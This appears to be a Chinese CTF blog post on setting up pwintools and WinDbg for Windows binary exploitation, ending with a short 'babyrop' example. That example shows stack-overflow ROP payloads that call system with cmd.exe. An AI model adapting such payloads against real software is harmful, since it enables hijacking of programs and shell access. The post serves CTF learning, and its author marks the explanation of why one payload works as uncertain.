 ```yaml
---
layout: post
title:  "Windows PWn"
categories: pwn
tags: pwn
author: ble55ing
---
```


* content
{:toc}
## Windows Pwn 

ctf比赛中的Windwos Pwn题目愈发的多了，学一波

### Pwintools

工欲善其事，必先利其器。如果能在windows上有类似linux的调试环境那就比较舒服了。

<https://github.com/masthoon/pwintools> Windows上的pwntools

#### 安装psutil 

有人说需要安，所以就安了

<https://pypi.python.org/packages/b9/aa/b779310ee8a120b5bb90880d22e7b3869f98f7a30381a71188c6fb7ff4a6/psutil-5.2.2.win32-py2.7.exe#md5=2068931b6b2ecd9374f9fc5fe0da652f> 

#### Python for Windwos

按照pwintools官网上的介绍，需要这个，所以安一下

https://github.com/hakril/PythonForWindows> 

#### 修改request：

pwintools需求Python for Windwos版本0.4，但github上是0.5了，所以就会报错，使用Notepad++查找包中的PythonForWindows==0.4，改成==0.5（我下载的版本是0.5），就能够成功安装完成了

#### Pwintools修改

pwintools和pwntools还是有一些区别的，可以修改pwintools里的一些东西然后再重新安一下满足需求。

我的修改：

class Process中的self.debuggerpath改为了我的windbg地址

添加sendlineafter(self, delim, line, timeout = None)

#### 常用指令



### Windbg

官网安装

<https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools> 

下载这个Download WinDbg Preview from the Microsoft Store: [WinDbg Preview](https://www.microsoft.com/store/p/windbg/9pgjgd53tn86). 

安装。我的默认安装到了G盘，注意需要去pwintools里其改一下。

#### Windbg常用命令

F5 /g 	继续执行，类似gdb的c

F8 		单步执行，类似gdb的s

F10		单步执行，类似gdb的n

lm		列出各模块的加载基址

F9/bp	下断点，如bp 0x2a1070

bl		查看所有断点，可删除

.reload	加载程序符号表

d		查看内存数据，类似gdb的x ，用法d 0x

### 一个小例子

babyrop，一个简单栈溢出

```
payload = "0" * 0xcc + 'aaaa' + p32(system) + 'cccc' + p32(cmd)
```

这样的payload就不能成功

```
payload = "0" * 0xcc + 'aaaa' 
payload += p32(gets) + p32(pecx) + p32(cmd) 
payload += p32(system) + 'bbbb' + p32(cmd)
...
io.sendline("cmd.exe")
```

这样的payload就能成功，原因不明，第一种的cmd.exe在内存中后面只有一个/x00，之后都是数据，第二种的后面全是/x00

第一篇文章，存疑

